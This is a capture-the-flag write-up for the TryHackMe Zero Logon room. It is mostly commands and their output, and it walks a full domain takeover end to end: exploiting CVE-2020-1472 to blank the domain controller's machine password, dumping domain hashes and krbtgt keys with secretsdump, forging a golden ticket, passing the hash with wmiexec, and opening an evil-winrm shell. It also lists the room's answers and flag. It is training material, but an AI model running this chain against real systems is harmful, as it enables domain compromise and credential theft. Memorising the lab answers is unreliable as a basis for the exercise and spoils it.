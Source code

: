 ```yaml
---
render_with_liquid: false
title: Zero Logon
tags: [tryhackme, zero-logon, cve-2020-1472, crackmapexec, ntpdate, impacket, powerview, evil-winrm, dcsync, ad]
---
```




> https://tryhackme.com/room/zer0logon


## Identify zero logon exploit

```bash
┌──(kali㉿kali)-[~]
└─$ cme smb 10.10.244.21 -u '' -p '' -M zerologon
SMB         10.10.244.21    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:hololive.local) (signing:True) (SMBv1:False)
SMB         10.10.244.21    445    DC01             [+] hololive.local\:
SMB         10.10.244.21    445    DC01             [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
ZEROLOGO... 10.10.244.21    445    DC01             VULNERABLE
ZEROLOGO... 10.10.244.21    445    DC01             Next step: https://github.com/dirkjanm/CVE-2020-1472
```


## Add gathered hostnames to hosts

```bash
echo '10.10.244.21 hololive.local DC01.hololive.local' | sudo tee -a /etc/hosts
```


## Sync time with DC

```bash
sudo ntpdate hololive.local
```


## Exploit Zero Logon (CVE-2020-1472)


### Exploit steps

1. Read the blog/whitepaper above so you know what you're doing
2. Run cve-2020-1472-exploit.py with IP and netbios name of DC
3. DCSync with secretsdump, using -just-dc and -no-pass or empty hashes and the DCHOSTNAME$ account


### Run the exploit

```bash
git clone https://github.com/dirkjanm/CVE-2020-1472
cd CVE-2020-1472
```

```bash
┌──(kali㉿kali)-[/opt/sectools/CVE/CVE-2020-1472]
└─$ python cve-2020-1472-exploit.py DC01 10.10.244.21
Performing authentication attempts...
===========================================================================================================================================================================================================================================================================================================================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```


## DCSync

```bash
┌──(kali㉿kali)-[~]
└─$ secretsdump.py hololive.local/'DC01$'@10.10.244.21 -no-pass -just-dc
Impacket v0.10.1.dev1+20230718.100545.fdbd256 - Copyright 2022 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
Administrator:aes128-cts-hmac-sha1-96:535501623337ae03580527692f08f0e1
Administrator:des-cbc-md5:bf34685d383e6734
krbtgt:aes256-cts-hmac-sha1-96:9702af2b67c5497940d0f0a7237fbd53d18fb2923fadd37f4ba33d6d5dab4583
krbtgt:aes128-cts-hmac-sha1-96:81628713bd5608becc4325052eb9702d
krbtgt:des-cbc-md5:25f1cea1542f9e31
...
```


## Craft golden ticket

Get domain sid first

```bash
┌──(kali㉿kali)-[~]
└─$ lookupsid.py hololive.local/'DC01$'@10.10.244.21 -no-pass
Impacket v0.10.1.dev1+20230718.100545.fdbd256 - Copyright 2022 Fortra

[*] Brute forcing SIDs at 10.10.244.21
[*] StringBinding ncacn_np:10.10.244.21[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1872501866-1970410005-2298688736
...
```

```bash
┌──(kali㉿kali)-[~]
└─$ ticketer.py -aesKey 9702af2b67c5497940d0f0a7237fbd53d18fb2923fadd37f4ba33d6d5dab4583 -domain-sid S-1-5-21-1872501866-1970410005-2298688736 -domain hololive.local Administrator
Impacket v0.10.1.dev1+20230718.100545.fdbd256 - Copyright 2022 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for hololive.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```


## Pass The Ticket with evil-winrm


### Reset the machine password

> Zero Logon will break kerberos authentication , it will show the error message : `STATUS_MORE_PROCESSING_REQUIRED({Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.)` 
> 
> Reset the machine account password to make kerberos authentication work again
{: .prompt-warning }

issue the following command to reset the machine back to it's original state:

```bash
wmiexec.py -hashes 0:3f3ef89114fb063e3d7fc23c20f65568 -shell-type powershell Administrator@dc01.hololive.local 'Reset-ComputerMachinePassword'
```


### Configure Kerberos

Configure `krb5.conf`

>Template of `/etc/krb5.conf` 

```config
[libdefaults]
        default_realm = HOLOLIVE.LOCAL

[realms]
        HOLOLIVE.LOCAL = {
                kdc = DC01.HOLOLIVE.LOCAL
        }

[domain_realm]
        .hololive.local = HOLOLIVE.LOCAL
```


### Evil-Winrm

Set `KRB5CCNAME` cache variable

```bash
export KRB5CCNAME=Administrator.ccache
```

Verify that the ticket works

```bash
┌──(kali㉿kali)-[~]
└─$ cme winrm DC01.hololive.local --use-kcache
SMB         HOLOLIVE.LOCAL  5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:hololive.local)
HTTP        HOLOLIVE.LOCAL  5985   DC01             [*] http://HOLOLIVE.LOCAL:5985/wsman
```

Start evil-winrm

```bash
┌──(kali㉿kali)-[~]
└─$ evil-winrm -r hololive.local -i DC01.hololive.local

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
THM{Zer0Log0nD4rkTh1rty}
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


## Questions


### What is the NetBIOS name of the Domain Controller?

> DC01


### What is the NetBIOS domain name of the network?

> HOLOLIVE


### What domain are you attacking?

> hololive.local


### What is the Local Administrator's NTLM hash?

> 3f3ef89114fb063e3d7fc23c20f65568


### How many Domain Admin accounts are there?

```bash
powerview -k hololive.local/Administrator@DC01.hololive.local --no-pass -q "Get-NetGroup 'Domain Admins'"
```

![](/assets/obsidian/dc22aed69e5ede18a0762166f1a64e14.png)

> 2


### What is the root flag?

> THM{Zer0Log0nD4rkTh1rty}